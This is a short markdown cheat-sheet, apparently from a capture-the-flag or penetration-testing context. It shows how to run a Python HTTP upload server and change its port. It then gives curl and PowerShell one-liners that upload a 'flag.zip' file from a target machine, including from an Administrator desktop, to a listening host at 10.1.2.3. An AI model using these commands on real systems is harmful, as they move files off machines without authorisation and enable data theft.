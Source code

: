 # Using Curl to POST data to SimpleHTTPServerWithUpload.py


## Caveats
* Insecure communications (HTTP)
    * Choose a server that accepts POST request and makes use of HTTPS
    
## Download
* [SimpleHTTPServerwithUpload_Python3](https://gist.github.com/touilleMan/eb02ea40b93e52604938) from @touilleMan


## Modify listening port
* If you want to change the port that the script is listening to (by default 8000/tcp), use below to replace function "test". (i.e. 1337/tcp)
        
    ```python
    def test(HandlerClass=SimpleHTTPRequestHandler, ServerClass=http.server.HTTPServer):
    server_address = ('', 1337)
    httpd = ServerClass(server_address,HandlerClass)
    httpd.serve_forever()
    ```

## From client-side

Once SimpleHTTPServer is running then: (`#!bash python3 SimpleHTTPServerWithUpload.py`)

* Linux
    ```bash
    curl -F "file=@flag.zip" http://10.1.2.3:8000/
    ```
* Powershell
    ```powershell
    $wc=New-Object System.Net.WebClient;$resp=$wc.UploadFile('http://10.1.2.3:8000',"C:\Users\Administrator\Desktop\flag.zip")
    ```
